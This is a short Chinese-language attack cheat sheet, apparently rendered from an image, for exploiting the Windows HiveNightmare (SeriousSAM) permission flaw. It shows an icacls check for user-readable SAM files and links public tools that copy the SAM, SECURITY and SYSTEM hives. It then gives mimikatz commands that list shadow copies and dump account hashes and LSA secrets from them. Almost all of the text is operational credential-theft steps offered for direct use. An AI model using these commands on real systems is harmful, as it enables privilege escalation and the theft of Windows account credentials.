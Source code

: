 	icacls检查漏洞
	C:\Windows\System32> icacls config\SAM
	config\SAM BUILTIN\Administrators:(I)(F)
           NT AUTHORITY\SYSTEM:(I)(F)
           BUILTIN\Users:(I)(RX)    <-- 这是错误的 - 普通用户不应该有读取权限!
	https://github.com/GossiTheDog/HiveNightmare
	执行成功会生成3个文件 SAM SECURITY SYSTEM
	直接拿去导出密码
	或
	https://github.com/romarroca/SeriousSam
	执行生成SAM和SYSTEM
	或
	https://github.com/FireFart/hivenightmare
	直接执行生成3个文件SAM SECURITY SYSTEM
	mimikatz
	mimikatz> token::whoami /full

	列出可用的卷影副本
	mimikatz> misc::shadowcopies

	从 SAM 数据库中提取账户
	mimikatz> lsadump::sam /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /sam:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM

	从 SECURITY 中提取密钥
	mimikatz> lsadump::secrets /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /security:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY